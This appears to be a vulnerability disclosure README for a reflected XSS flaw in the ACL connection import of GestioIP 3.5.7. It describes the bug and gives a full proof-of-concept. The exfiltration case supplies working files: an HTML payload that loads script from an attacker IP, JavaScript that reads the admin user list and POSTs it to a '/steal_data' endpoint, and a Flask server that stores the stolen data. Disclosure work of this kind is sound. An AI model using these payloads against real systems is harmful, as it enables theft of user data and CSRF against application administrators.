









# CVE-2024-50859

- [Information](#information)
	- [Description](#description)
- [Proof-of-Concept Exploit](#proof-of-concept-exploit)
	- [Description](#description)
	- [Steps to Reproduce](#steps-to-reproduce)
	- [Case: Basic test "hello world!"](#case-basic-test-hello-world)
		- [Usage/Exploitation](#usageexploitation)
	- [Case: Data exfiltration](#case-data-exfiltration)
		- [Usage/Exploitation](#usageexploitation)
		- [Files](#files)

## Information

### Description

The `ip_import_acl_csv` request is vulnerable to Reflected XSS (Reflected Cross-Site Scripting); the user can upload a file and the file content is reflected in the HTML response without being sanitized. If the file uploaded by the user has an incorrect format and an error occurs during its processing, part of the file's content may be displayed in the browser. If this content includes HTML or scripts and it is not properly escaped, the browser could interpret it, leading to a security vulnerability. This could allow data exfiltration and enabling CSRF (Cross-Site Request Forgery) attacks.<br>
Proper input validation and output encoding are critical to prevent this vulnerability.


**Versions Affected:** 3.5.7 <br> 

## Proof-of-Concept Exploit
### Description

The `ip_import_acl_csv` feature of GestioIP 3.5.7 is vulnerable to Reflected XSS, leading to data exfiltration and CSRF attacks.


### Steps to Reproduce


**Step 1.** Set this in the Global Configuration

	Manage > Manage GestioIP > ACL connection management



Then you can see the menu option:

			import/export > "import ACLs/ACL Connections"



**Step 2.** Upload a "malicious" file

Select: import/export > Import ACLs/ACL Connections

Select: "Connection List"

Select "report only"

Browse to select the file you want to upload.

Click 'upload'




### Case: Basic test "hello world!"

This is just a simple example to showcase that HTML content is reflected in the browser output.

#### Usage/Exploitation

To exploit this vulnerability the attacker uploads a basic HTML file `hello.html` that includes H1 HTML tags:


`hello.html`

```html
<h1>Hello World!</h1>
```

Upload the HTML file:




After clicking upload the webpage shows:





The application displays the uploaded content in the browser, rendering it as a formatted `<h1>` tag instead of escaping characters to treat it as plain text. Without proper escaping, this behavior can be exploited by an attacker to inject malicious scripts, leading to a reflected XSS vulnerability.



### Case: Data exfiltration

For example, an attacker could leverage this vulnerability to **retrieve the list of users** from the GestioIP application. If an administrator uploads a "malicious" HTML file while authenticated to the application, the HTML will be interpreted by the browser, and the XSS payload will be triggered.

This causes the administrator's browser to perform a GET request to a file hosted on the attacker's server, retrieving the user list from the GestioIP application. Subsequently, the browser will send a POST request to the attacker's server, exfiltrating the obtained user information.

#### Usage/Exploitation

To exploit this vulnerability:

• The admin user uploads a malicious file, such as `refxss_3.html`, which will request a '**.js**' file from the attacker's server.



• The attacker must host the `refxss_exfiltrate_3.js` file on a server they control (e.g., using `python3 -m http.server 8090`), along with a Python Flask server to receive the exfiltrated data.

Once the authenticated administrator uploads the malicious HTML file, the XSS is triggered, prompting the admin's browser to collect the data and send it to the attacker's server.


After clicking upload:

1. The webpage shows:




2. The server processed the html file and the attacker server receives the GET request for the 'js' file:




3. The data is gathered as stated in the JS file, and afterwards, the attacker's Flask server receives the POST request.



4. Data exfiltrated is saved to a file in the attacker's server.


#### Files


1. `refxss_3.html`

```html
<html><script src="http://10.20.0.1:8090/refxss_exfiltrate_3.js"></script></html>
```


2. `refxss_exfiltrate_3.js`

```javascript
var req1 = new XMLHttpRequest();
req1.open('GET',"http://localhost/gestioip/res/ip_show_user.cgi", false);
req1.send();

response = req1.responseText;

var req2 = new XMLHttpRequest();
req2.open('POST', "http://10.20.0.1:8000/steal_data", false);
req2.setRequestHeader('Content-Type', 'text/html');
req2.send(response);
```


3. `server_flask_html.py` 

Python flask server

```python 
from flask import Flask, request
from flask_cors import CORS
import json

app = Flask(__name__)
CORS(app)

@app.route('/steal_data', methods=['POST'])
def steal_data():
    data = request.data.decode('utf-8')
    with open('data_exfiltrated.html', 'a') as f:  
        f.write(data + '\n')
    return 'Data received and saved', 200

if __name__ == '__main__':
    app.run(host='0.0.0.0', port=8000)

```
